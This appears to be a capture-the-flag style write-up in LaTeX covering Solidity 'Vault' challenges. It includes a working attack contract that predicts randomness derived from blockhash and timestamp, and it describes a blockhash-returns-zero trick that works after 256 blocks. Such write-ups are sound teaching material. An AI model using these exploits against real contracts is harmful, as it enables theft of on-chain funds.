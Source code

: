 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.28;
    
    interface IVault04 {
        function breachVault(uint256 _password) external returns (bool);
    }
    
    contract Vault04Attack {
        IVault04 public vault;
    
        constructor(address _vaultAddress) {
            vault = IVault04(_vaultAddress);
        }
    
        // Function to perform the attack
        function attack() external returns (bool) {
            // Compute the guess using on-chain values in the same transaction.
            uint256 guess = uint256(
                keccak256(
                    abi.encodePacked(blockhash(block.number - 1), block.timestamp)
                )
            ) % 100;
            
            return vault.breachVault(guess);
        }
    }
\end{lstlisting}
\end{minipage}

\noindent
Since the guess is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the \texttt{blockhash} and \texttt{timestamp} remain valid when the vault processes the request.

\subsection*{Vault05: Fortune Teller}

To breach \texttt{Vault05}, you need to use the \texttt{blockhash} of the block when the guess was locked in, but only after the next block has been mined. First, you lock the guess using \texttt{lockInGuess}. Then, you must wait for the next block and calculate the random number using \texttt{blockhash(lockInBlockNumber)}. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of the previous blocks. However, since the \texttt{blockhash} function only returns the blockhash for the last 256 blocks, otherwise it returns zero (see \href{https://docs.soliditylang.org/en/latest/units-and-global-variables.html}{Solidity documentation}). Therefore, we simply lock in a 0 and mine 256 blocks before calling the \texttt{breachVault} function.
\end{document}
